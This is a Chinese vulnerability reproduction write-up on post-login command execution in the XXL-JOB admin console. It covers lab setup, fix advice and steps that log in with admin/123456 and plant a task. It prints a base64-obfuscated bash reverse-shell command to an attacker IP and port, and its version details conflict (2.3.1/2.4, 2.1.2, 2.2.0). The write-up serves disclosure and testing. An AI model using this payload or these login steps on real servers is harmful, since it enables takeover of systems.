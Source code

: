# XXL-JOB 任务调度中心 后台任意命令执行漏洞

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** XXL-JOB 任务调度中心 后台任意命令执行漏洞



## 0x01 漏洞描述

在日常开发中，经常会用定时任务执行某些不紧急又非常重要的事情，例如批量结算，计算当日的订单量，当日的成本收入等。当存在大量定时任务的时候，任务的管理也会成为一个比较头痛的问题。xxl-job，就是一个比较成熟的分布式任务调度平台。XXL-JOB 任务调度中心系统存在后台命令执行漏洞，攻击者可以通过反弹shell执行任意命令，获取服务器管理权限。

## 0x02 影响版本

```json
2.3.1和2.4
```

## 0x03 修复建议

1. 将服务平台放置内网，或者隐藏端口
2. 将密码设置为强密码
3. 开源项目，有条件可以在登录口设置验证，防止爆破情况发生

## 0x04 环境搭建

安装docker以及docker-compose

```
docker pull mysql:5.7.44
docker pull xxl-job-admin:2.1.2
docker run  --name mysql -d -p 3306:3306 -e MYSQL_ROOT_PASSWORD=123456 mysql:5.7.44

github 下载 对应版本源代码文件
下载地址：https://github.com/xuxueli/xxl-job/archive/refs/tags/2.1.2.zip
解压后，进入 \doc\db 目录，将 tables_xxl_job.sql 文件导入至docker mysql 容器中
导入命令：mysql -h 容器所在宿主机IP地址 -uroot -p123456 < sql文件路径

docker run -e PARAMS="--spring.datasource.url=jdbc:mysql://容器所在宿主机IP地址:3306/xxl_job?useUnicode=true&characterEncoding=UTF-8&useSSL=false&serverTimezone=Asia/Shanghai --spring.datasource.username=root --spring.datasource.password=123456 --spring.datasource.driver-class-name=com.mysql.jdbc.Driver"  -p 9080:8080 -v /root/xxl-job/log:/data/applogs --name xxl-job-admin --privileged=true -d xuxueli/xxl-job-admin:2.1.2
```

打开浏览器输入： `http://容器所在宿主机IP地址:9080/xxl-job-admin` ，即可访问

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled.png)

## 0x05 漏洞复现

本次使用的xxl-job版本为`xxl-job-admin:2.2.0`

通过弱口令或其他方式进入后台界面

访问`http://192.168.81.173:8080/xxl-job-admin/toLogin#/`进入xxl-job-admin登陆界面

账号密码：admin/123456

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%201.png)

任务管理新增任务

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%202.png)

点击新增任务，按照下图填写后，保存

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%203.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%204.png)

选择GLUE IDE, 写入反弹shell的命令

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%205.png)

保存后

攻击机在命令行界面监听8989端口即可

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%206.png)

xxl-job任务管理界面，对刚才创建的任务进行操作，选择点击执行一次

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%207.png)

反弹shell成功

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%208.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%209.png)

运行模式为GLUE(Java)时反弹shell的操作与GLUE(Shell)相同

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2010.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2011.png)

```
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzE5Mi4xNjguODEuMTgyLzg5ODkgMD4mMQ==}|{base64,-d}|{bash,-i}");
```

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2012.png)

![Untitled](XXL-JOB%20%E4%BB%BB%E5%8A%A1%E8%B0%83%E5%BA%A6%E4%B8%AD%E5%BF%83%20%E5%90%8E%E5%8F%B0%E4%BB%BB%E6%84%8F%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E%20259d91df95f84e9b88e2bd8ead19a3f4/Untitled%2013.png)